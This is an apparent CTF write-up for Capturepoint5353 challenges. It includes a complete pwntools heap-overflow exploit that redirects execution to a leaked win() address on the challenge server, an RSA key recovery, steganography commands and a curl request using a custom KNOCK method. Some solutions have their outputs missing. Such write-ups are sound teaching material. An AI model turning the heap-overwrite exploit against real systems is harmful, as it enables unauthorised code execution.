

# Capturepoint5353 CTF
## Hosted by Indian Institute of Information Technology Vadodara (IITV) - International Campus Diu

## Binary Exploitation

### Heapocalypse

**Solution**

```python
#!/usr/bin/env python3
from pwn import *
import re

# Target details
HOST = "challenge.capturepoint5353.tech"
PORT = 9999

# Connect to the server
log.info(f"Connecting to {HOST}:{PORT}")
io = remote(HOST, PORT)

# Receive initial output until the prompt
initial_output = io.recvuntil(b"Enter your input: ").decode()
log.info("Received initial output:\n" + initial_output)

# Extract the win function address using regex
match = re.search(r"Win function @ (0x[0-9a-fA-F]+)", initial_output)
if not match:
    log.error("Could not find win function address in output!")
    io.close()
    exit(1)

win_addr_str = match.group(1)
win_addr = int(win_addr_str, 16)
log.success(f"Found win function address: {hex(win_addr)}")

# Construct the payload (96 bytes total)
payload = b""
payload += b'A' * 64      # 1. Padding for buffer1
payload += b'B' * 16      # 2. Overwrite buffer2's metadata (header)
payload += p64(0x1337)    # 3. Magic value for *(buffer2)
payload += p64(win_addr)  # 4. Address of win() for *(buffer2 + 8)

# Verify payload length
assert len(payload) == 96, f"Payload length is {len(payload)}, expected 96"
log.info(f"Constructed payload ({len(payload)} bytes)")
# print(hexdump(payload)) # Uncomment to see the payload bytes

# Send the payload (use send, not sendline, as read expects exact bytes)
log.info("Sending payload...")
io.send(payload)

# Receive the rest of the output, which should contain the flag
log.info("Receiving response...")
try:
    output = io.recvall(timeout=5).decode()
    log.info("Received response:\n" + output)

    # Look for the flag in the final output
    flag_match = re.search(r"(flag\{.*\})", output)
    if flag_match:
        log.success(f"Flag found: {flag_match.group(1)}")
    else:
        log.warning("Flag not found in the output.")
        if "Magic value detected!" not in output:
             log.warning("Magic value was likely not detected by the server.")
        if "Congratulations!" not in output:
             log.warning("Win function might not have been called correctly.")

except EOFError:
    log.warning("Connection closed unexpectedly by server.")
except Exception as e:
    log.error(f"An error occurred: {e}")
finally:
    io.close()
    log.info("Connection closed.")
```


## General

### Think you can drive

**Soultion**

Given a drive link with a looking-empty Google Sheets file and a Google Docs documents.

Seeing the size of the Google Sheets says its not 0. Downloading it as .xlsx and opening in Microsoft Excel Shows the True data inside.


Seeing the 997th Row of the Mth Column gives us. 


```
=XLOOKUP("CTF110280", G1:G50, F1:F50, "")
```

Correcting the order for the first first 19 DOBs and Searching for 11/02/1980. Gives us 


Using the Code in cipher identifier says its a ASCII-85 Encoded.

Decoding gives us


## Unknown

### Operational Blackout


**Solution**

```bash
zsteg -E 'b1,bgr,lsb,xy' hacker.png | grep "flag" --text
```


### Cipher of the Forgotten Key

**Solution**
Unzipping `aweuhrukh34kuvbjKBrufe4huirhuigUIW4EGUIewbfbcbieuwhifurgui345834fbiweth4ihtiuh84hguirbga.zip` gives us a python code.

```python
from binascii import hexlify
from gmpy2 import mpz_urandomb, next_prime, random_state
import math
import os
import sys
import getpass

if sys.version_info < (3, 9):
    import gmpy2
    math.gcd = gmpy2.gcd
    math.lcm = gmpy2.lcm

SECRET = getpass.getpass("Enter the secret message: ")
FLAG = int(hexlify(SECRET.encode()), 16)
SEED  = int(hexlify(os.urandom(32)).decode(), 16)
STATE = random_state(SEED)

def get_prime(bits):
    return next_prime(mpz_urandomb(STATE, bits) | (1 << (bits - 1)))

p = get_prime(1024)
q = get_prime(1024)

x = p + q
n = p * q

e = 65537

m = math.lcm(p - 1, q - 1)
d = pow(e, -1, m)

c = pow(FLAG, e, n)

print(f'x = {x:x}')
print(f'n = {n:x}')
print(f'c = {c:x}')
```

Given Zip file, we unzip it to see some additional payload at the end of the zip.


Using `cat` on the .zip file gives us x, n and c values


We write another code to reverse this function

```python
from binascii import unhexlify
import math
import gmpy2

def decrypt_rsa(x, n, c, e=65537):
    # Solve for p and q
    a = 1
    b = -x
    c_term = n
    
    discriminant = b * b - 4 * a * c_term
    sqrt_discriminant = gmpy2.isqrt(discriminant)  # Use gmpy2 for large int sqrt
    
    p = (-b + sqrt_discriminant) // (2 * a)
    q = (-b - sqrt_discriminant) // (2 * a)
    
    assert p * q == n, "Factorization failed!"
    
    # Compute m (LCM of (p-1) and (q-1))
    m = math.lcm(p - 1, q - 1)
    
    # Compute private exponent d
    d = pow(e, -1, m)
    
    # Decrypt message
    FLAG = pow(c, d, n)
    
    # Convert integer back to string
    hex_flag = hex(FLAG)[2:]
    if len(hex_flag) % 2:
        hex_flag = '0' + hex_flag  # Ensure even length for unhexlify
    
    return unhexlify(hex_flag).decode()

# Example usage:

# Example usage:
x_hex = "1701774988a8528a39cf09f345e065026dc6555c0909497cd7f6bd0ad18feb6821dddbf8e45799dbb538de8a01c52c52739b3dbe735227797699e9b50277736f8c01bc39cafed0c439a0e58b9d6ed29139ef4ca82a9750ae87c869e2e1fd7d03bd966106e04171011d4fc51e998494730484519005f57719d548a00d4088e6386"
n_hex = "8450daee7a553174579990ee1a6daa5a30ba698bcf6d8cb4e9682cfd9b41aa2c04a367615c7f608fa8075bdb2d2011aa718567c9569f03d276c1e6b364f0dabdf6cfb8b623b6529776810a38addbf0dd3e279da6f4fb29b2808baa6c74dc9ec9ebc8427e1912f6c3724ce739cb717064210f55be681a003bae098f97973490d6d5ec900f3a087e3dacd87401ab1f7875c1eabda2657483cdf56c698c02bea63e174a3e27e2f7356d61aeabd9b97c1e35ff4ed63137fc6a3f74b45a36808aa2193901f9d7ded4caca01a3c88d5a3194b09b93951248c22954845bc5751d3acc1f1e0b660b9c861c0d5da5a977efac419ef9259c442d591a3f8650cee7fd71e989"
c_hex = "57f0b1bb12fb19bc84156baa1120abd236ca62a681d36f30dd822c9a2d708c954b0981f7b0ffc128bb05dee92559a71c6518a89e8133c7114a002c95eef0d478703bfdd4683d6d4dfb37b169a36521e14923178e61c15017f7d4b58cc99f3f9d3aafe800714db4ac38367694eaacdd04a7dbbe3afc00a3f31bee4c74ddbc15d5c73bb93940213bf8da3ba4ecf31c07befb444c3ab3a05eb29620e9f5158dd4c506248ab6a5ce067e16aa3da4f5e3808e9b11ba321532e24bb27a34aed61039ad38735266905840839dc68a82c54013e57a2ec319f5e0665c9f22224d7eeb2978034fd1ea5e5cc8a51bed196a96cf30af02d2a7f8e3f252829f6d23be60da919c"

x = int(x_hex, 16)
n = int(n_hex, 16)
c = int(c_hex, 16)

message = decrypt_rsa(x, n, c)
print("Decrypted Message:", message)
```


### PunHub

**Solution**


On seeing only meme7 is a jpeg file rest are jpg files

Opening the `meme7.jpeg` gives us




### Easy-Peasy

**Solution**

There is a hidden link in the PDF. Pressing `Ctrl+A` Shows it.


This leads us to `let_us_learn_about_flutter.txt` file.
Searching for `CTF` in this file gives us.


### Dora the Explorer Version 2.0 💖

**Soultion**

Using Python decompilers `https://pyinstxtractor-web.netlify.app/` to decompile the exe to .zip

Then searching for flag


### Feedback

**Solution**

Just fill in the Google Form


### PhantomFlag

**Soultion**

Using Microsoft Paint to change the BG color shows the flag


### Kurly Mess

**Solution**

Opening the website doesnt show anything. So we run


This gives 
```
< X-1: VHJ5
< X-2: S05PQ0tpbmc=
< X-3: d2l0aA==
< X-4: cmlnaHQ=
< X-5: bWV0aG9k
< X-6: b24=
< X-7: LA==
< X-8: cmlnaHQ=
```
Which is a Base64 Cipher

Decoding it with python gives us
```Python
import base64

# List of base64-encoded strings from the headers
encoded_strings = [
    "VHJ5", 
    "S05PQ0tpbmc=", 
    "d2l0aA==", 
    "cmlnaHQ=", 
    "bWV0aG9k", 
    "b24=", 
    "LA==", 
    "cmlnaHQ="
]

# Decode each base64 string
decoded_strings = [base64.b64decode(s).decode('utf-8') for s in encoded_strings]
decoded_strings
```


Using KNOCK on right gives us the flag

```bash
curl -X KNOCK http://3.108.161.243:40008/right --verbose
```


### Scenic View

**Solution**

Running Zsteg on the image gives the flag


### StackSmashers

**Soultion**


### The Server's Riddle

**Solution**

Printing the RGB values

```python
from PIL import Image
from collections import Counter

def extract_colors(image_path, max_colors=10):
    # Open the image
    img = Image.open(image_path)
    
    # Convert the image to RGB mode (if not already in RGB)
    img = img.convert('RGB')

    # Get the pixel data
    pixels = list(img.getdata())

    # Count the frequency of each color in the image
    color_counts = Counter(pixels)

    # Get the most common colors
    most_common_colors = color_counts.most_common(max_colors)

    return most_common_colors

# Example usage
image_path = 'rainbow.png'  # Replace with your image file path
colors = extract_colors(image_path, max_colors=10)

# Display the results
for color, count in colors:
    print(f"Color: {color}, Count: {count}")
```

Using the HINT provided : `take the rgb values from png add 201 and mod with 251 ans convert`

```python
from PIL import Image
from collections import Counter

def transform_color(rgb):
    return tuple(chr((value + 201) % 251) for value in rgb)

def extract_colors(image_path, max_colors=10):
    # Open the image
    img = Image.open(image_path)
    
    # Convert the image to RGB mode (if not already in RGB)
    img = img.convert('RGB')

    # Get the pixel data
    pixels = list(img.getdata())

    # Apply transformation to each pixel
    transformed_pixels = [transform_color(pixel) for pixel in pixels]

    # Count the frequency of each transformed color
    color_counts = Counter(transformed_pixels)

    # Get the most common colors
    most_common_colors = color_counts.most_common(max_colors)

    return most_common_colors

# Example usage
image_path = 'rainbow.png'  # Replace with your image file path
colors = extract_colors(image_path, max_colors=10)

# Display the results
for color, count in colors:
    print(f"Transformed Color: {color}, Count: {count}")
```


